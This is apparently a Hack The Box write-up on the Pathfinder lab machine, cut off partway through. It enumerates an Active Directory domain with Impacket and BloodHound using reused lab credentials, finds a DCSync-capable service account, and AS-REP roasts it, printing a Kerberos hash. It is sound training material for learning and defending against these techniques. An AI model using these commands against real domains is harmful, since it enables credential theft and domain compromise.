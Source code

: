 So this machine looks like a Domain Controller. I think is the first time ever i have to work with Active Directory... let's see how this goes. Also we can see that WinRM is open, can be handy in the future.

## Domain enumeration

Using the credentials we found in the Shield box: `sandra:Password1234!` we can authenticate in the domain so we can try to check the users:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -dc-ip <MACHINE_IP> MEGACORP.LOCAL/sandra
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Querying <MACHINE_IP> for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2020-03-17 14:52:07.517633  2020-03-20 21:09:30.654209 
Guest                                                 <never>              <never>             
krbtgt                                                2020-01-25 16:53:34.376107  <never>             
svc_bes                                               2020-03-20 20:16:54.721477  2021-09-04 18:43:16.045548 
sandra                                                2020-03-20 20:17:40.846466  2021-09-04 18:29:37.061223
```

Also, with BloodHound (Remember to open `neo4j` database first!) we can check a lot of information about the domain, we can use the `bloodhound-python` as ingestor:

```bash
bloodhound-python -u sandra -p Password1234! -ns <MACHINE_IP> -d megacorp.local -c all
```

Once we upload the information to BloodHound we can check for attack vectors. The `Find Principals with DCSync Rights` query returned something insteresting:

 <p align="center"><img alt="Screenshot with the BloodHound query result" src="/assets/images/write-ups/htb/Pathfinder-DCSyncRights.png"></p>

`SVC_BES` user has `GetChanges` and `GetChangesAll` privileges so we can perform a `dsync` attack from that user to get a list of the domain users secrets. Let's check if that user has Kerberos pre-authentication enabled:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip <MACHINE_IP> -no-pass  megacorp.local/svc_bes
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:e38bdf345d80e70f11bc176b32d549a2$e710e585dabe65b552cc143b9426423877ec00c38b1531d904591c9905dbba0ed28d516cb5aca86864769a9e47d0af41a7b4557949b235dccadbc2ca18346010a08fed48fa67bf0582a74592c415d29b3f2066919206c3cd4e329629883c82f428e5ce37f5408f6708b943eeca1d95dd7b469e2ca09ba874639d226d51a4581ef396e41fd15e6ca6f33420cfbcb53457a8ec4a8c5f96e70d6f38f7b66347380c834f9ce3a05ea8c8d36c708a4ffe3908f9af5d5b9734854a15c704c4a13313584ab009d6c5a036f4858c960ee34952b9281787147b4a53ea14b3c06a0a455c9ad7fada2c9f06aa7b7e114132b8313f4c
```
